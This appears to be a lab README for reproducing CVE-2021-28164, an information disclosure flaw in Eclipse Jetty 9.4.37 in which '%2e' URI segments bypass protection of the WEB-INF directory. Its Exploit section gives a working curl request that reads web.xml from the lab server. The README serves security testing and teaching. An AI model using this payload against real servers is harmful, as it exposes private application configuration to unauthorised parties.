

# Jetty Ambiguous Paths Information Disclosure Vulnerability (CVE-2021-28164)

[中文版本(Chinese version)](README.zh-cn.md)

Eclipse Jetty is a Java web server and Java Servlet container.

Jetty release 9.4.37 introduced a more precise implementation of RFC3986 with regards to URI decoding, together with some new compliance modes to optionally allow support of some URI that may have ambiguous interpretation within the Servlet specified API methods behaviours. The default mode allowed % encoded . characters to be excluded for URI normalisation, which is correct by the RFC, but is not assumed by common Servlet implementations.

The default compliance mode allows requests with URIs that contain `%2e` or `%2e%2e` segments to access protected resources within the WEB-INF directory. For example a request to `/context/%2e/WEB-INF/web.xml` can retrieve the web.xml file. This can reveal sensitive information regarding the implementation of a web application.

This bug is fixed on version 9.4.39.

Reference links.

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5

## Vulnerable Application

Execute the following command to start a Jetty 9.4.37 server.

```
docker-compose up -d
```

After the server starts, visit ``http://your-ip:8080`` to see an example page.

## Exploit

The sensitive file web.xml is not accessible through `/WEB-INF/web.xml`.


Use `%2e/` to bypass the restriction:

```
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```


